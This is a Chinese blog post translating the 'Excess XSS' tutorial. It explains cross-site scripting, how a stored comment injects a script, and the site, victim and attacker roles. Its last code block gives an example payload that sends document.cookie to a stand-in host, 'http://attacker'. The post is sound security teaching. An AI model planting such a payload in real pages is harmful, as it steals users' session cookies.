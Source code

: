 ```yaml
---
layout: post
title: 【Excess XSS译文】了解XSS攻击
description: "Just about everything you'll need to style in the theme: headings, paragraphs, blockquotes, tables, code blocks, and more."
modified: 2016-01-23
tags: [javascript, front-end, xss, safety]
image:
  feature: abstract-3.jpg
  credit: dargadgetz
  creditlink: http://www.dargadgetz.com/ios-7-abstract-wallpaper-pack-for-iphone-5-and-ipod-touch-retina/
comments: true
share: true
---
```


上一周被一个xss的问题困恼，通过阅读一篇关于xss的入门文章：[Excess XSS](http://excess-xss.com/)，让我重新捡起了xss的有关知识，觉得这篇文章很不错，通俗易懂、深入浅出，于是想翻译出来分享给大家。本篇译文分为两部分，首先是关于原文[Excess XSS](http://excess-xss.com/)的翻译。第二部分是关于我上周工作中遇到的一个有趣的XSS问题以及解决办法。

## 第一部分：概述

## 什么是XSS

跨站点脚本（Cross-site scripting，XSS）是一种脚本注入式攻击，允许攻击者在另一个用户的浏览器中执行恶意的脚本。

攻击者并不直接锁定某个受害者。而是利用一个受害者可能会访问的安全性薄弱的网站，通过这个网站替攻击者间接把恶意代码呈现给受害者。对于受害者的浏览器而言，这些恶意代码也是网站的合法的一部分，网站也就无意中成了攻击者的帮凶。

## 恶意代码是如何注入的

对于攻击者来说能够让受害者浏览器执行恶意代码的唯一方式，就是把代码注入受害者从网站上下载的页面中。如果网站直接把用户的输入作为页面呈现的一部分时，这是有可能发生的。因为攻击者可以以字符串的形式插入页面一段代码，这样就有可能在受害者的浏览器中被执行。

下面的例子是一个简单的服务端脚本，作用是展现网站上最新的评论:

```
print "<html>"
print "Latest comment:"
print database.latestComment
print "</html>"
```

这段脚本假设评论只包含文本。但是因为用户的输入是存入，一个攻击者可能提交这样的评论:`<script>...</script>`。任何访问这个页面的用户都会收到下面这样的内容：

```
<html>
Latest comment:
<script>...</script>
</html>
```

当用户的浏览器加载页面时，浏览器会执行包含在`<script>`标签中的任何脚本。这样以来攻击者就成功的完成了一次攻击。

## 什么是恶意脚本

首先，在受害者的浏览器中执行脚本算不上特别的恶意，毕竟在受限的环境中执行的脚本有非常有限的权限访问用户的文件和操作系统。事实上，你现在就可以打开你浏览器的脚本控制台立刻执行任何你想要的脚本，你几乎不可能对你的电脑造成任何的伤害。

但是，当你了解以下几个事实之后脚本变得恶意的可能性就变得越来越清晰了：

- Javascript有权访问一些用户的敏感信息，比如cookie
- Javascript能够通过XMLHttpRequest或者其他一些机制发送带有任何内容的HTTP请求到任何地址。
- Javascript能够通过DOM操作方法对当前页面的HTML做任意修改。

这些事实结合起来会引起非常严重的安全问题，也就是我们接下来要解释的。

## 恶意脚本的后果

这种在用户的浏览器中执行脚本的能力允许攻击者发动以下几类攻击

- Cookie窃取：攻击者能够通过`document.cookie`访问受害者与网站相关的cookie，然后传送到攻击者自己的服务器，接着从这些cookie中提取敏感信息，如Session ID。
- 记录用户行为（Keylogging）：攻击者可以使用 `addEventListener`方法注册用于监听键盘敲击事件，并且把所有用户的敲击行为发送到他自己的服务器，这些敲击行为可能记录着用户的敏感信息，比如密码和信用卡号码。
- 钓鱼网站（Phishing）：攻击者可以通过修改DOM在页面上插入一个假的登陆框，也可以把表单的`action`属性执行他自己的服务器地址，然后欺骗用户提交他自己的敏感信息。

尽管这些攻击类型大不相同，但都有一条重要的相似之处：因为攻击者已经把代码注入进网站提供的页面，所以恶意脚本都是在网站的上下文中执行，这就意味着恶意代码被当作网站提供的其他正常脚本一样对待：它有权访问受害者与网站相关的数据（比如cookie），但此时浏览器地址栏的的主机名（hostname）仍然是原网站的。总而言之，恶意脚本被浏览器认为是网站合法的一部分，允许它做任何事情。

再一次被强调的关键问题是：

>如果攻击者能够借助你的网站在另一个用户的浏览器中执行任意脚本，那么你网站的安全性已经无从谈起了。

为了能够直奔重点，本篇教程中的一些例子都略去了恶意脚本的具体细节，只显示`<script>...</script>`。这表示这段代码是攻击者注入的代码，而不关心代码具体的执行内容

## 第二部分：XSS攻击

### XSS攻击中的各种角色

在我们具体描述XSS攻击时如何运作之前，我们需要定义一下XSS攻击涉及的角色。总的来说，XSS攻击涉及三类角色：**网站**、**受害者**、**攻击者**

- **网站**为发出请求的用户返回网页。在我们的例子中，网站的地址是`http://webiste/`
	- **网站数据库**用于存储显示在页面上的的用户输入的内容。
- **受害者**是一位从浏览器向网站请求页面的普通用户
- **攻击者**是一位打算利用网站XSS漏洞向受害者发动攻击的恶意用户
	- **攻击者服务器**是由攻击者控制服务器，专用于窃取受害者的敏感信息。在我们的例子中，它的地址是：`http://attacker`

### 一个攻击场景实例

在这个例子中，我们假设攻击者的终极目标是利用网站的XSS漏洞窃取受害者的cookie。这可以通过设法让受害者的浏览器解析下面HTML代码来实现：

```
<script>
window.location='http://attacker/?cookie='+document.cookie
</script>
```

这段脚本将用户的浏览器定向到一个完全不同的URL，即触发向攻击者的服务器发送HTTP请求。这串URL把受害者的cookie作为查询参数，当攻击者服务器收到该请求后就能从中把cookie提取出来。一旦攻击者获取到cookie，他就能借助cookie扮演受害者并且发动更多的攻击。